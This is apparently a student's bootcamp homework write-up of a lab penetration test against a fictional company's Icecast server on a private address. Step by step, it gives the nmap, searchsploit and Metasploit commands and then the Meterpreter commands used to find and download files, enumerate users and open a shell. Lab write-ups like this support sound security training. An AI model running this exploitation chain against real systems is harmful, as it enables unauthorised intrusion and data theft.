 
# Rob Myers: Week 17 Homework: Penetration Testing 2

This week I was tasked with performing an internal penetration test on GoodCorp’s Icecast server. GoodCorp is an open source streaming media server.

For a full review of the findings here is a copy of the after action report: (Icecast Report)

### [GoodCorp-Icecast Penetration Test Report](Report.pdf)

Below is commands and exploits used to demonstrate vulnerabilities on the Icecast Server: 

## Instructions

You've been provided full access to the network and are getting ping responses from the CEO’s workstation.


1. Perform a service and version scan using Nmap to determine which services are up and running:

    * Run the Nmap command that performs a service and version scan against the target.

        ### Answer: **nmap -sS -sV -O -Pn 192.168.0.20**

   ### [nmap-Pictures](IMAGE/OS.md) 
        

2. From the previous step, we see that the Icecast service is running. Let's start by attacking that service. Search for any Icecast exploits:

    * Run the SearchSploit commands to show available Icecast exploits.

       ### Answer: **searchsploit Icecast**

    ### [Searchsploit Pictures](IMAGE/search.md)

3. Now that we know which exploits are available to us, let's start Metasploit:

    * Run the command that starts Metasploit:

        ### Answer: **msfconsole**

    ### [Starting metasploit Pictures](IMAGE/meta1.md) 

4. Search for the Icecast module and load it for use.

    * Run the command to search for the Icecast module:

        ### Answer: **search Icecast**

     ### [Search Icecast Pictures](IMAGE/meta.md) 

    * Run the command to use the Icecast module:

        ### Answer: **use 0** 

    ### [Use the Icecast Module Picture](IMAGE/meta2.md)     

5. Set the RHOST to the target machine.

    * Run the command that sets the RHOST:

       ### Answer: **set RHOSTS 192.168.0.20** 

     ### [Set the RHOSTS Picture](IMAGE/meta3.md)  

6. Run the Icecast exploit.

    * Run the command that runs the Icecast exploit.

    ### Answer: **RUN**

    ### [Running the Exploit Picture](IMAGE/meta4.md) 

    * Run the command that performs a search for the secretfile.txt on the target.

    ### Answer: **search -f * secretfile * .txt**

    ### [Searching for Secretfile.txt Picture](IMAGE/meta5.md)  

7. You should now have a Meterpreter session open.

    * Run the command to perform a search for the recipe.txt on the target:

    ### Answer: **search -f * recipe * .txt**

    ### [Searching for recipe Picture](IMAGE/meta6.md) 

    * Run the command that exfiltrates the recipe*.txt file:

    ### Answer: **download c/Users/IEUsers/Documents/Drinks.recipe.txt**


    ### [Exfiltrates command for recipe.txt](IMAGE/meta7.md) 

    ### [Exfiltrates command for user.secretfile.txt](IMAGE/meta69.md) 

    ### [Common Meterpreter Commands](IMAGE/meta8.md) 


8. You can also use Meterpreter's local exploit suggester to find possible exploits.

    * Run the command to use Meterpreters's local exploit suggester 

    ### [Meterpreter Explit Suggester](IMAGE/meta9.md)  

    ### Answer: **run post/multi/recon/local_explit_suggester

* **Note: The exploit suggester is just that: a suggestion. Keep in mind that the listed suggestions may not include all available exploits.**

## <u>Bonus</u> 

A. Run a Meterpreter post script that enumerates all logged on users.

### Answer: **run post/windows/gather/enum_logged_on_users** 

### [View ALL logged on Users](IMAGE/meta10.md)  


B. Open a Meterpreter shell.

### Answer: **shell** 

### [Document the Shell Command](IMAGE/meta11.md) 

C. Run the command that displays the target's computer system information:

### Answer: **sysinfo** 

### [sysinfo information](IMAGE/meta12.md)










    